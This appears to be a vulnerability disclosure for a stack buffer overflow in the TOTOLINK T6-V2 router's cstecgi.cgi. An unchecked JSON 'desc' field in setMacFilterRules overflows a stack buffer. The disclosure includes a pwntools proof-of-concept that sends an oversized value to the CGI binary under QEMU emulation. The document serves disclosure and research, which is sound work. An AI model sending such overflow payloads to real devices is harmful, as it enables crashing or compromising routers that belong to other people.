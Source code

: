 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041880c` (at address 0x41880c) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529112914215.png" alt="image-20220529112914215" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setMacFilterRules",
    "addEffect": "1",
    "enable": "1",
    "mac": "00:00:00:00:00:00",
    "desc": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

